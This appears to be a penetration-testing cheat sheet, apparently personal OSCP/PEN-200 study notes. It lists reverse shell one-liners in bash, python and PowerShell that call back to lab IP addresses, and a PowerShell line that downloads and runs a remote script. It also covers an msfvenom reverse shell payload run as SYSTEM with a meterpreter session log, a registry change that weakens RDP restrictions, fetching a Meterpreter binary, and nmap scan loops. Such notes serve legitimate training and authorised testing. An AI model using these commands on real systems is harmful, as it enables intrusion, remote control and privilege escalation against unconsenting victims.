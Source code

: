 | **Reverse shells**                                                                                                                                     | **Description**                                 |
| ------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1`                                                                                                          | Common reverse shell                            |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`                                                                                                | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell                            |
| `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.190/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`            | Powershell reverse shell with PowerCat          |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |


Google dork to search exploits (Instead of searchsploit):
```text
phpMyAdmin 4.9.2 site:exploit-db.com
```

Extract metadata from a file

```
exiftool -a -u brochure.pdf
```

#### Windows

When we are admin but cannot execute commands as nt authority\\system we can use this two powershell scripts (**[Invoke-CommandAs](https://raw.githubusercontent.com/mkellerman/Invoke-CommandAs/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1) and **[Invoke-CommandAs.ps1](https://gist.githubusercontent.com/amnich/6485c57e15d8272205d9c11dbaf419b7/raw/8a0914af1e0fe04b5815b3b703aa6c0a8c4ca163/Invoke-CommandAs.ps1)**)
```shell
*Evil-WinRM* PS C:\> Import-Module .\Invoke-CommandAs.ps1
*Evil-WinRM* PS C:\> Import-Module .\Invoke-ScheduledTask.ps1
*Evil-WinRM* PS C:\> Invoke-CommandAs -ScriptBlock {whoami} -AsSystem
	nt authority\system
```
We can create a msfvenom exe payload and catch the shell with a meterpreter session
```shell
kali # msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.204 LPORT=443 -f exe -o shell.exe
----
*Evil-WinRM* PS C:\> Invoke-CommandAs -ScriptBlock {C:\Users\Administrator\Documents\shell.exe} -AsSystem
----
msf6 exploit(multi/handler) > run
[*] Command shell session 1 opened (192.168.45.204:443 -> 192.168.222.147:60443) at 2024-02-29 13:46:59 +0100
```

When xfreerdp admin doesn't work
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

PS - Enable terminal color (for WinPeas for example)
```shell
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

PS - Get local user
```shell
Get-LocalUser
```

PS - List IP and hostnames in AD environment
```shell
Get-ADComputer -Filter * | Select-Object DNSHostName, @{name="Ip";Expression={(Test-Connection $_.DNSHostname -Count 1).IPV4Address.IPAddressToString}}
```

Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Cross-platform exploit compiling:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```

If we get errors due to the linker cannot find the winsock library:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

Find filename:
```shell
dir -Path C:\  -Include flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

Retrieve a file in Powershell (same as wget)
```shell
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
```

| Enumerating                                                                                                                                                                                                                                                                                                 | **Description**                  |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| `for i in $(cat ../internal-network.txt); do mkdir -p $i/nmap; nmap -p- --min-rate=10000 --open $i -oA "$i/nmap/quick-scan"; done`                                                                                                                                                                          | Quick scan from scope file       |
| `mkdir nmap`<br>`for i in $(cat scope.txt); do sudo nmap -p- --min-rate=10000 --open $i -oG nmap/$i; done`<br>`cd nmap`<br>`for i in $(ls \| grep -v '.nmap'); do extractPorts $i; export clipboard_content=`xclip -o -selection clipboard`; nmap -p $clipboard_content -sCV -A -T4 $i -oN "$i.nmap"; done` | Script to process scope.txt file |

**Phising:** Refer to PEN-200 content, 24.3.2 module and use swaks